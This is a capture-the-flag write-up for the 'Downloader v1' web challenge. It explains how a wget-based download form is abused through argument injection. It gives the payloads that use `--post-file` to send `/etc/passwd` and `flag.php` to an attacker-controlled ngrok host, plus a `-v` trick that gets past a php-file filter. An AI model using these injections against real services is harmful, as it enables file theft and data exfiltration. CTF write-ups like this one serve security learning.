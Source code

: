 # Downloader v1

### Challenge

Don't you find it frustrating when you have uploaded some files on a website but you're are not sure if the download button works? Me neither. But some people did. Is there even demand for such a service?

Flag format: DCTF{sha256}

### My solution

First, we see that the website gives us a complete view of what is running in the background; indeed, we have a terminal output.

![Terminal output](terminal_output.png)

My first idea was to inject commands using the `;`.  Unfortunately, `;` are escaped.
Then, i wondered if there was a way to execute code via the `wget` command. Looking at the `wget` documentation, I found myself looking at the `--post-file` parameter :

```
--post-file=file

    Use POST as the method for all HTTP requests and send the specified data in the request body. --post-data sends string as data, whereas --post-file sends the contents of file.
```

Then I fire up `ngrok`, and send `http://xxxxxxxxxxx.ngrok.io --post-file=/etc/passwd` in the website form. Success ! I have read access to the filesystem ! Now I need to find the flag...

Trying to read `index.php`, I get caught and a `Sneaky you !` error message appears. With a couple of tests, this clearly happens everytime I try to download a php file. More importantly, when I append characters at the end of the query, the message disapears. So maybe I can still craft a valid request by appending an other flag to the wget command ? Indeed, using `-v` (verbose) does the trick.

Final payload : `http://xxxxxxxxxxx.ngrok.io --post-file=flag.php -v`
